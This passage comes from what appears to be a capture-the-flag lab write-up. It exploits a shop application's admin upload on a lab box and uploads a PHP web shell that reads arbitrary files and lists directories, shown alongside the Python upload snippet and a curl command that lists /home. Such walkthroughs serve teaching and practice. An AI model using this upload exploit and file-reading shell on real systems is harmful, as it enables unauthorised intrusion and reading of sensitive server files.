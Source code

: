 I’ll use that address to view the page. In that information, it’s clear why the webshell isn’t working:

[![image-20210116152148808](https://0xdfimages.gitlab.io/img/image-20210116152148808.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20210116152148808.png)

These functions are disabled, including `system` that’s used in the exploit.

`disable_functions` can be bypassed pretty easily, but that’s not the intended way to solve this box (I’ll show it in the next section).

### Path #1: Enumeration via PHP

#### Read File / Dir List PHP

I modified the exploit again to upload a PHP file that allows me to get files and directories:

```

sploit = """<?php
if (isset($_REQUEST['file'])) { 
    echo file_get_contents($_REQUEST['file']);
} 

if (isset($_REQUEST['dir'])) {
    print_r(scandir($_REQUEST['dir']));
}

?>
"""
files = {
        'vqmod': (rand + ".php", sploit, "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }

```

After running that, I can list a directory:

```

root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "dir=/home"
Array
(
    [0] => .
    [1] => ..
    [2] => sysadmin
)

```

This user can’t read in `/home/sysadmin`.

I can also get a file, like `/etc/passwd`:
